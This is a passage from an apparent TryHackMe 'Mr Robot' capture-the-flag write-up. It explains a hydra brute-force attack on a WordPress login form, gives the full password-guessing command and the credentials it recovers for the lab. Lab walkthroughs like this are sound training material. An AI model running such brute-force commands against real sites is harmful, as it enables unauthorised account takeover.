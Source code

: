 ![Mr Robot - Hydra Username](tryhackme/images/mrrobot_hydra_username.png)

To summarise, the `hydra` command:

- `-L fsocity_filtered.dic`: Uses the filtered `fsocity.dic` file for the list of usernames to try
- `-p test`: Sets the password to `test` for every attempt
- `http-post-form`: Declares that the form we are bruteforcing is using `HTTP POST` requests
- `/wp-login.php`: The target endpoint
- `:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username`: The parameters from our BurpSuite capture
- `-t 30`: Use 30 threads

Now we have the username, `Elliot`, we can use the same technique to get the password:

```console
$ hydra -l Elliot -P fsocity_filtered.dic <VICTIM IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username' -t 30
```

![Mr Robot - Hydra Password](tryhackme/images/mrrobot_hydra_password.png)

With the credentials `Elliot:ER28-0652`, we can successfully log in to the admin dashboard of the Wordpress site:

![Mr Robot - Wordpress Dashboard](tryhackme/images/mrrobot_wordpress_dashboard.png)

